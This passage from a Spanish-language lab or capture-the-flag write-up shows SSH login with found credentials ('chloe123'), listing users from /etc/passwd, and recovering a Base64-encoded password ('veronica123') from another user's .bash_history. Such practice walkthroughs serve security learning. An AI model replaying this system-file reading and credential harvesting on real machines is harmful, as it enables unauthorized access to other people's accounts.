 Veremos que hemos encontrado unas credenciales validas, por lo que vamos a conectarnos por `SSH` con dicho usuario.

### SSH

```shell
ssh chloe@<IP>
```

Metemos como contraseña `chloe123` y veremos que estamos dentro.

## Escalate user veronica

Vamos a ver cuantos ususarios encontramos en el sistema:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
veronica:x:1001:1001:,,,:/home/veronica:/bin/bash
pablo:x:1002:1002:,,,:/home/pablo:/bin/bash
chloe:x:1003:1003:,,,:/home/chloe:/bin/bash
```

Vemos que hay varios usuarios, pero si listamos la `home` entera veremos lo siguiente:

```
total 24
drwxr-xr-x 1 root     root     4096 Apr 16 23:03 .
drwxr-xr-x 1 root     root     4096 May  7 13:24 ..
drwxr-x--- 1 chloe    chloe    4096 Apr 18 22:14 chloe
drwxr-x--- 1 pablo    pablo    4096 May  2 18:11 pablo
drwxr-x--- 2 ubuntu   ubuntu   4096 Jan 26 22:09 ubuntu
drwxr-xrwx 1 veronica veronica 4096 Apr 18 16:35 veronica
```

Vemos que en la carpeta del usuario llamado `veronica` tiene todos los permisos, si entramos dentro veremos varios archivos, si vamos leyendo cada uno de ellos, veremos uno muy interesante en esta parte.

```shell
cat .bash_history
```

Info:

```
dmVyb25pY2ExMjMK
```

Veremos que esta codificado en `Base64`, si lo decodificamos veremos:

```
veronica123
```

